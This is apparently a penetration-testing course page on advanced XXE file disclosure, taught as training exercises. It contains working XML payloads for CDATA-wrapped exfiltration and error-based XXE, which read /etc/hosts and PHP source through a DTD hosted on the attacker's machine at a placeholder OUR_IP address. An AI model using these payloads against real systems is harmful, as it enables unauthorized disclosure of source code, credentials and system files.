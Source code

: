 # Advanced File Disclosure

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

***

## Advanced Exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```shell-session
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

{% hint style="info" %}
**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.
{% endhint %}

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.

***

## Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
